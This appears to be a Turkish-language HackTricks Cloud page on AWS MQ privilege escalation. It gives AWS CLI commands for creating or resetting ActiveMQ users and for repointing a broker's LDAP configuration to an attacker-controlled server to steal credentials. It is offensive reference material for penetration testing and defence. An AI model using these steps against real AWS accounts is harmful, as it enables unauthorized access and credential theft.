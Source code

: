 # AWS - MQ Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## MQ

MQ hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Bu izinlerle **bir ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Bu izinlerle **ActiveMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:UpdateBroker`

Eğer bir broker **ActiveMQ** ile yetkilendirme için **LDAP** kullanıyorsa, **saldırgan tarafından kontrol edilen** **LDAP sunucusunun** **konfigürasyonunu değiştirmek** mümkündür. Bu şekilde saldırgan, **LDAP üzerinden gönderilen tüm kimlik bilgilerini çalabilir**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Eğer ActiveMQ tarafından kullanılan orijinal kimlik bilgilerini bir şekilde bulabilirseniz, bir MitM gerçekleştirebilir, kimlik bilgilerini çalabilir, bunları orijinal sunucuda kullanabilir ve yanıtı gönderebilirsiniz (belki çalınan kimlik bilgilerini yeniden kullanarak bunu yapabilirsiniz).

**Potansiyel Etki:** ActiveMQ kimlik bilgilerini çalmak

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

